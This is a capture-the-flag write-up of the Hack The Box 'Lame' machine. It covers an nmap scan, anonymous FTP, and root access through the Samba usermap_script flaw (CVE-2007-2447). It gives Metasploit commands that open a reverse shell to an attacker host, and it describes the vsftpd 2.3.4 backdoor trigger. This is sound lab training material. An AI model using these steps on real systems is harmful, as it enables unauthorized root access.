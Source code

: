 ```yaml
---
clayout: ctf
title: Lame
date: 2025-08-20
image: /ctf/hack-the-box/machines/lame/info-card.png
type: Hack The Box

ctf:
    - name: Lame
      link: https://app.hackthebox.com/machines/1
      thumbnail: /ctf/hack-the-box/machines/lame/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/1
          thumbnail: /ctf/hack-the-box/machines/lame/pwned.png
---
```


## Machine Overview

The target is a legacy Linux host exposing **FTP (vsftpd 2.3.4)**, **SSH (OpenSSH 4.7p1)**, and **Samba (3.0.20-Debian)**. While vsftpd 2.3.4 is the backdoored build that attempts to spawn a shell on **TCP/6200**, the host firewall prevents access: the **INPUT** chain policy is **DROP**, and only **21, 22, 139, 445** are explicitly allowed. The practical attack path is **Samba (CVE-2007-2447 / usermap\_script)**, which provides an immediate **root** shell without further privilege escalation.

## Enumeration

### Nmap Scan

We begin with a basic service and version scan:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.10.3
```

**Scan Results:**

```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

From the scan we see:

* FTP allows anonymous login.
* Samba is running a vulnerable version (3.0.20).
* SSH is available, but not immediately useful without credentials.

### FTP Enumeration

Anonymous FTP login is enabled, but the directory is empty:

```bash
ftp 10.10.10.3
Name: anonymous
Password: anonymous
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

The service identifies as **vsftpd 2.3.4**, which is notable because a trojanized build was briefly distributed in 2011.

* In that backdoored build, sending a username containing `:)` spawns a shell on **6200/tcp**.
* Metasploit’s `exploit/unix/ftp/vsftpd_234_backdoor` targets exactly that behavior.

On this host, the backdoor shell is **not externally reachable** due to the firewall configuration. The reasoning and evidence appear in [Firewall Analysis](#firewall-analysis-why-the-vsftpd-backdoor-fails). Let's move on to the Samba enumeration.

### Samba Enumeration

The more promising lead is **Samba 3.0.20-Debian**, which is affected by the **usermap script** vulnerability (CVE-2007-2447).
This flaw allows arbitrary command execution when username map scripts are improperly handled.

Searching in Metasploit, we find a matching exploit:

```bash
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
msf exploit(multi/samba/usermap_script) > set RPORT 445
msf exploit(multi/samba/usermap_script) > set LHOST 10.10.14.5
msf exploit(multi/samba/usermap_script) > set LPORT 4444
msf exploit(multi/samba/usermap_script) > run
```

Successful exploitation gives us a shell:

```bash
[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.10.3:47871)

id
uid=0(root) gid=0(root)
```

We immediately gain root-level access.

> [!NOTE] Root/User Flag
> The flags are in the following files:
>
> * User flag: `/home/makis/user.txt`.
> * Root flag: `/root/root.txt`.

## Firewall Analysis (why the vsftpd backdoor fails)

Post-exploitation inspection of the firewall clarifies the failed vsftpd route. The **filter/INPUT** chain policy is **DROP**, with explicit **ACCEPT** rules only for selected services: **21/tcp (FTP)**, **22/tcp (SSH)**, **139/445 (SMB over TCP/UDP)**, and **3632 (distcc)**. There is **no rule permitting 6200/tcp**, the port used by the vsftpd 2.3.4 backdoor. As a result, even if the backdoor logic is triggered, the shell on 6200 is not reachable externally. The UFW `*-before/after-*` rules using `RETURN` are part of chain flow control and do not themselves allow traffic; the actual allows appear under `ufw-user-input`.

```bash
$ iptables-save | head
:INPUT DROP [...]
# ... other rules ...
```

```bash
$ iptables-save | grep -E -- '--dport'
-A ufw-after-input -p udp -m udp --dport 137 -j RETURN
-A ufw-after-input -p udp -m udp --dport 138 -j RETURN
-A ufw-after-input -p tcp -m tcp --dport 139 -j RETURN
-A ufw-after-input -p tcp -m tcp --dport 445 -j RETURN
-A ufw-after-input -p udp -m udp --dport 67 -j RETURN
-A ufw-after-input -p udp -m udp --dport 68 -j RETURN
-A ufw-before-input -p udp -m udp --sport 67 --dport 68 -j ACCEPT
-A ufw-user-input -p tcp -m tcp --dport 22 -j ACCEPT
-A ufw-user-input -p udp -m udp --dport 22 -j ACCEPT
-A ufw-user-input -p tcp -m tcp --dport 21 -j ACCEPT
-A ufw-user-input -p tcp -m tcp --dport 3632 -j ACCEPT
-A ufw-user-input -p udp -m udp --dport 3632 -j ACCEPT
-A ufw-user-input -p tcp -m tcp --dport 139 -j ACCEPT
-A ufw-user-input -p udp -m udp --dport 139 -j ACCEPT
-A ufw-user-input -p tcp -m tcp --dport 445 -j ACCEPT
-A ufw-user-input -p udp -m udp --dport 445 -j ACCEPT
# (no rule for 6200/tcp)
```

This policy explains the discrepancy between the vulnerable version and the non-exploitable behavior observed during testing.
That’s why the exploit doesn’t work: it’s a **deliberate rabbit hole**.

## References

* [Hack The Box - Lame](https://app.hackthebox.com/machines/1)
* [Metasploit - vsftpd 2.3.4 backdoor](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
* [Metasploit - Samba Usermap Script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
